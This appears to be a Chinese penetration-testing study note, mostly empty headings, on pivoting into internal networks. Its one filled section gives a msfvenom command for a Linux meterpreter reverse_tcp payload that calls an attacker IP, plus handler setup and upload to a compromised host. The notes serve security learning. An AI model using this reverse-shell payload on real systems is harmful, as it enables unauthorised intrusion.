 ```yaml
---
categories: [渗透测试]
tags: 内网渗透 msf 代理 信息收集
---
```

# 2023.10.10
参考链接:[内网渗透思路](https://www.cnblogs.com/r00tuser/articles/7344853.html)
## 0x01 信息收集
一般先攻入边缘主机，再利用这台边缘主机攻入内网。
### 1.1 收集测试网络环境

***
### 1.2 收集服务器信息

***
### 1.3 内网扫描
#### 端口转发
##### tcp端口转发

##### http转发

***
#### 代理扫描内网
##### http代理转发

##### tcp代理转发
###### 生成msf木马
1. 生成木马
   
   由于攻击机无法访问肉鸡的端口，而肉鸡可以访问攻击机的端口，因此生成一个反向的木马。
    ```
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf
    ```
2. 反弹shell
   
    攻击机运行msfconsole，使用exoloit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。

    此时将shell_8000.elf上传 到肉鸡服务器上，添加权限后运行木马将会主动连接上攻击机监听的端口，并在攻击机上获取一个meterpreter shell。
3. 设置路由
   上一步获取到了一个session，这个session是攻击机与肉鸡相互连接的会话。
   
   查看下肉鸡的网络情况：
   
###### 反弹shell

###### 设置路由

##### tcp全局转发

***
#### 端口扫描工具

***
### 1.4 端口转发的逆袭
内网扫描过后的
#### meterpreter实现端口转发

##### 案例

#### lcx端口转发

***

### 1.5 内网扫描
